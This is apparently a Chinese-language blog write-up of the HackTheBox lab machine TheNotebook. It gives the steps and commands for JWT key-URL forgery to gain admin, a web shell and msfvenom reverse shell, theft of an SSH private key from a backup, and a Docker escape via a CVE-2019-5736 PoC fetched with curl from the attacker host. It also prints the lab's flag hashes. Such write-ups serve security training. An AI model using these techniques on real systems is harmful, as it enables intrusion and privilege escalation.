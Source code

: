 ```yaml
---
layout:     post
title:      HackTheBox TheNotebook
subtitle:   HackTheBox
date:       2021-05-28
author:     heria
header-img: img/post-bg-23.jpg
catalog: true
tags:
---
```


# 

![image-20210528113226567](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210528113226567.png)

## 信息收集

nmap -sS -sV -sC 10.10.10.230

![image-20210528113349405](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210528113349405.png)

## 渗透

开放22 80 10010端口，查看80端口

![image-20210528113531249](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210528113531249.png)

register可以注册用户

![image-20210528114029134](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210528114029134.png)

但是注册之后发现用户只能写note

![image-20210528114138575](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210528114138575.png)



注册时抓包，注册完之后返回了JWT Token

![image-20210528114912152](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210528114912152.png)

![image-20210528115005711](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210528115005711.png)



获取到的token信息复制出来

到该站点https://jwt.io/

通过RS256进行解密

![image-20210528130440160](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210528130440160.png)



decoded之后发现在header中存在"http://localhost:7070/privKey.key"这样的地址

在payload中存在admin_cap：0的字段，推测为权限设置

私钥地址应该可控，所以我们可以修改权限参数，并修改私钥地址为自己的地址，使得请求合法

执行以下指令生成公私钥

```
openssl genrsa -out rsa_private.pem 2048	#私钥
openssl rsa -in rsa_private.pem -outform PEM -pubout -out rsa_public.pem	#公钥
```

![image-20210528131429317](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210528131429317.png)



之后更改私钥地址和权限控制标志，并通过我们之前生成的公私钥进行签名，生成新的合法token

![image-20210528132333838](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210528132333838.png)

python开启http服务，是目标机能够访问存放私钥的位置

```
python -m SimpleHTTPServer 9999
```

之后替换掉cookie，刷新页面，发现相比之前多了admin panel此时便是以admin登录的

![image-20210528133604350](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210528133604350.png)



后台存在上传文件功能，直接上传一句话配合蚁剑，拿到低权限

![image-20210528134948003](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210528134948003.png)

站点会定期删除上传的shell,所以通过msfvenom生成反弹shell的木马，上传后目标机上线msf

![image-20210528142244497](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210528142244497.png)



在站点处找到存在备份的提示，并在主机/var/backups中找到了home.tar.gz文件

![image-20210528143250988](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210528143250988.png)

![image-20210528143344025](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210528143344025.png)

之后尝试tar -zxvf解压，发现在该文件夹下没有权限，所以将home.tar.gz复制到/tmp下再进行解压操作

![image-20210528143651608](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210528143651608.png)

找到nosh

![image-20210528143730872](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210528143730872.png)

并在下面找到ssh私钥

![image-20210528143849911](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210528143849911.png)

![image-20210528144019815](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210528144019815.png)

我们通过cat /etc/passwd发现存在noah的用户，尝试通过ssh密钥对方法登录

![image-20210528143947448](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210528143947448.png)

cat 抓取内容，之后复制到kali攻击机

![image-20210528144228797](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210528144228797.png)

遇到一个小坑，id_rsa权限过大会导致不安全，最终认证失败，此时只需要chmod 0600 id_rsa就能解决问题

![image-20210528144922454](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210528144922454.png)

之后再次执行ssh -i id_rsa noah@10.10.10.230 使用密钥对登录

成功以noah用户登录

![image-20210528145135701](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210528145135701.png)

eccb7f5355deb19cad62dd98368d1c3e

拿到user.txt中的flag

![image-20210528145227227](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210528145227227.png)

## 提权

sudo -l 

![image-20210528145655467](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210528145655467.png)

docker --version,找到docker版本

![image-20210528145806385](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210528145806385.png)

之后根据版本信息搜索漏洞

![image-20210528145833307](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210528145833307.png)

CVE-2019-5736docker逃逸漏洞

https://github.com/Frichetten/CVE-2019-5736-PoC下载poc,并更改反弹shell语句

![image-20210528150812771](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210528150812771.png)

编译，由于kali下未安装go环境，我放到了另外一台centos下进行的编译，最终会生成一个main文件

```
CGO_ENABLED=0 GOOS=linux GOARCH=amd64 go build main.go
```

![image-20210528151553329](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210528151553329.png)

kali首先开启http服务，供目标机下载main文件

终端执行

```
sudo /usr/bin/docker exec -it webapp-dev01 /bin/bash
curl ip:port/main -o main
chmod +x main
```

进入容器，将exp置入容器内部

![image-20210528152127269](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210528152127269.png)

kali开启监听，再开启一个ssh终端，在原先的终端中执行./main运行exp，后在新终端中执行

```
sudo /usr/bin/docker exec -it webapp-dev01 /bin/sh
```

之后kali就成功获得反弹shell.

![image-20210528152724303](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210528152724303.png)

找到root.txt下的flag

![image-20210528153432069](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210528153432069.png)

62099600743ce1dfeca97f7ae07692fc